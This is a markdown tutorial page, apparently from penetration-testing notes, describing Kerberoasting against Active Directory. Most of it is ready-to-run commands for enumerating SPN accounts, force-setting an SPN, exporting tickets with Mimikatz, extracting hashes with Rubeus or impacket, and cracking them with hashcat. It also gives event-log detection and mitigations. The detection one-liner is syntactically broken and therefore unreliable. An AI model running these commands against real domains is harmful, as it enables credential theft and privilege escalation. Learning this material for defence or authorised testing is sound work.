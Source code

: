 ```yaml
---
title: "Kerberoasting"
description: "Privilege escalation using Kerberoasting."
lead: "Using Kerberoasting for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 20
toc: true
---
```


## Overview

- Request service ticket for any service with registered SPN
- Use ticket to crack service password
- Use BloodHound to find Kerberoastable accounts
- If service is a domain admin we can gather loot and dump the NTDS.dit
- If not, you can use it to log into other systems and pivot or escalate
- Use cracked password for password spraying

## Exploitation

### Find Accounts with SPN

```powershell
# Windows built-in
setspn -T DOMAIN -Q ​*/*

# PowerView
Get-NetUser -SPN | Select -ExpandProperty serviceprincipalname

# AD Module
Get-ADUser -Filter { ServicePrincipalName -ne "$null" } -Properties ServicePrincipalName
```

### Force Set SPN

If we have enough rights on user (GenericAll/GenericWrite) we can set an SPN for a user then request a TGS for it for Kerberoasting.

```powershell
# Enumerate the permissions for RDPUsers on ACLs using PowerView 3.0/dev
# Enumerate the permissions for RDPUsers on ACLs using PowerView 3.0/dev
Invoke-ACLScanner -ResolveGUIDs | ?{ $_.IdentityReferenceName -match "RDPUsers" }

# Check if user already has a SPN
# Using PowerView 3.0
Get-DomainUser -Identity support572user | Select serviceprincipalname

# Using AD Module
Get-ADUser -Identity support572user -Properties ServicePrincipalName | Select ServicePrincipalName

# Set a SPN for the user (must be unique in domain)
# Using PowerView 3.0
Set-DomainObject -Identity support572user -Set @{serviceprincipalname="dcorp/bufusvc"}

# Using AD Module
Set-ADUser -Identity support572user -ServicePrincipalNames @{Add="dcorp/bufusvc"}
```

### Extracting Tickets

```powershell
# PowerShell built-in
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# PowerView
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Check if TGS has been granted
klist

# Extract tickets with mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'

python.exe .\tgsrepcrack.py .\10k-worst-pass.txt ".\1-40a10000-student572@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi"
```

### Extracting Hashes

```powershell
# Rubeus
# Find all kerberoastable users and save hashes to file
.\Rubeus.exe kerberoast /outfile:hashes.kirbi

# For specific SPN
.\Rubeus.exe kerberoast /spn:MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local /outfile:mssqlsvc.kirbi

# Using Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII ticket.kirbi

# Remotely with impacket
GetUserSPNs.py dcorp-dc/user:password -dc-ip 10.10.10.10 -request

# Crack hash with hashcat
hashcat -a 0 -m 13100 hash.txt rockyou.txt
```

## Detection

- Security event ID 4769: A Kerberos ticket was requested
- Filter results based on the following information from logs
  - Service name should not be krbtgt
  - Service name does not end with $ (to filter out machine accounts used for services)
  - Account name should not be machine@domain (to filter out requests from machines)
  - Failure code is '0x0' (to filter out failures, 0x0 is success)
  - Most importantly, ticket encryption type is 0x17

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$_.Message.split"`n")[8] -ne 'krbtgt' -and $_.Message.split"`n")[8] -ne '*$' -and $_.Message.split"`n")[3] -notlike '*$@*' -and $_.Message.split"`n")[18] -like '*0x0*' -and $_.Message.split"`n")[17] -like "*0x17*"} | Select -ExpandProperty message
```

## Mitigation

- Strong service account passwords
- Don't make service accounts domain admins
- Use Managed Service Accounts (Automatic change of password periodically and delegated SPN Management)
- https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/jj128431(v=ws.11)
